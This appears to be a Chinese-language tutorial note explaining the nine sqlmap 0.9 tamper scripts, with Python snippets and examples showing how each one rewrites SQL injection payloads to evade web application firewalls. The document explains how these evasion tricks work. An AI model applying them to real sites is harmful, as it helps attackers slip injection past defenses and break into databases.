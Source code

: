 # sqlmap使用tamper脚本有较大机会绕过WAF，获得更高的效率
## sqlmap 0.9中内置9个tamper脚本

## between.py
 - between.py 的作用是替换>(大于号)，for example：  A > B 变成 A NOT BETWEEN 0 AND B
```sh
elif payload[i] == ">" and not doublequote and not quote:
	retVal += " " if i > 0 and not payload[i-1].isspace() else ""
	retVal += "NOT BETWEEN 0 AND"
	retVal += " " if i < len(payload) - 1 and not payload[i+1].isspace() else ""
```
## charencode.py
 - d对payloads进行url编码  Example: 'SELECT FIELD FROM%20TABLE' becomes '%53%45%4c%45%43%54%20%46%49%45%4c%44%20%46%52%4f%4d%20%54%41%42%4c%45'
```sh
while i < len(payload):
	if payload[i] == '%' and (i < len(payload) - 2) and payload[i+1] in string.hexdigits and payload[i+2] in string.hexdigits:
		retVal += payload[i:i+3]
		i += 3
	else:
		retVal += '%%%X' % ord(payload[i])
		i += 1
```

## charunicodeencode.py
 - payloads unicode编码 Example: 'SELECT FIELD%20FROM TABLE' becomes '%u0053%u0045%u004c%u0045%u0043%u0054%u0020%u0046%u0049%u0045%u004c%u0044%u00
 20%u0046%u0052%u004f%u004d%u0020%u0054%u0041%u0042%u004c%u0045'
 ```sh
while i < len(payload):
	if payload[i] == '%' and (i < len(payload) - 2) and payload[i+1] in string.hexdigits and payload[i+2] in string.hexdigits:
		retVal += "%%u00%s" % payload[i+1:i+3]
		i += 3
	else:
		retVal += '%%u00%X' % ord(payload[i])
		i += 1
```
## ifnull2ifisnull.py
 - Example: 'IFNULL(1, 2)' becomes 'IF(ISNULL(1), 2, 1)'  ISNULL()值为NULL返回1，否则返回0.
```sh
if comma and end:
	A = payload[index + len("IFNULL("):comma]
	B = payload[comma + 1:end]
	newVal = "IF(ISNULL(%s),%s,%s)" % (A, B, A)
	payload = payload[:index] + newVal + payload[end+1:]
```
## randomcase.py
 - 随机大小写替换  Example: 'INSERT' might become 'InsERt'
```sh
if payload:
	for match in re.finditer(r"[A-Za-z_]+", retVal):
		word = match.group()

		if word.upper() in kb.keywords:
			newWord = str()

			for i in xrange(len(word)):
				newWord += word[i].upper() if randomRange(0, 1) else word[i].lower()
```

## randomcomments.py
 - 用/**/分隔 Example: 'INSERT' becomes 'IN/**/S/**/ERT'
```sh
for i in xrange(1, len(word) - 1):
	newWord += "%s%s" % ("/**/" if randomRange(0, 1) else "", word[i])
```

## space2comment.py
 - 用/**/替换空格  Example: 'SELECT id FROM users' becomes 'SELECT/**/id/**/FROM/**/users'
```sh
elif payload[i]==" " and not doublequote and not quote:
	retVal += "/**/"
```
## space2plus.py
 - 用+替换空格 Example: 'SELECT id FROM users' becomes 'SELECT+id+FROM+users'
```sh
elif payload[i]==" " and not doublequote and not quote:
	retVal += "+"
```

## space2randomblank.py
 - 从字符集中blanks = ['\r', '\n', '\t']随机选择一个替换空格   Example: 'SELECT id FROM users' becomes 'SELECT\rid\tFROM\nusers'
```sh
elif payload[i]==" " and not doublequote and not quote:
	retVal += random.choice(blanks)
```
